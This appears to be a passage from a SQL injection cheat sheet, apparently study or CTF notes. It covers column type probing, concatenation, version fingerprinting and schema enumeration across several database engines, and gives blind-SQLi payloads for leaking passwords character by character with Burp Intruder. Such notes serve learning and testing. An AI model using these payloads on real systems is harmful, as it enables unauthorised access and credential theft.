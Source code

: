> The null data type is compatible with almost all data types.

Strings cannot be converted to integers. Sometimes the backend code tries to do so to our injection, causing it to fail. Thus, we need to identify which columns are operated on as strings.

We can do so by shifting the column with the string sequentially, replacing the rest with null.

### Too few columns!
Sometimes, we want to extract more columns than the injection allows. We can bypass this via concatenation.

| Version                  | Query          |
| ------------------------ | -------------- |
| MySQL, MSSQL, PostgreSQL | `CONCAT(a, b)` |
| sqlite, Oracle           | `a || b`       |

### Identify SQL version

| Version          | Query                          |
| ---------------- | ------------------------------ |
| Microsoft, MySQL | `SELECT @@version`             |
| Oracle           | `SELECT banner FROM v$version` |
| PostgreSQL       | `SELECT version()`             |
| sqlite           | `SELECT sqlite_version()`      |

### Get table/column names

| Version                  | Query                                                                                                                            |
| ------------------------ | -------------------------------------------------------------------------------------------------------------------------------- |
| MySQL, MSSQL, PostgreSQL | `SELECT table_name FROM information_schema.tables`<br>`SELECT column_name FROM information_schema.columns WHERE table_name = %s` |
| sqlite                   | `SELECT name, sql FROM sqlite_master`                                                                                            |
| Oracle                   | `SELECT table_name from all_tables`<br>`SELECT column_name from all_tab_columns where table_name = %s`                           |

> In sqlite, the sql column gives us the query used to create the table.

---

## Blind SQLi

*Useful when the attack vector is a login form, but the goal is not to bypass the login.*
| Version | Query                                      |
| ------- | ------------------------------------------ |
| MySQL   | ` or substring(password, x, 1) = 'a'; -- ` |
| sqlite  | ` or substr(password, x, 1) = 'a'; -- `    |

Manually bruteforcing each character can take quite long. We can either use Burp Intruder to leak the values, or script a custom Python implementation if Burp Intruder can't do what we want. For Burp Intruder, we'll usually need to use Cluster Bomb with at least 3 payloads: 2 digits for x, and 1 alphanumeric + symbols for char.

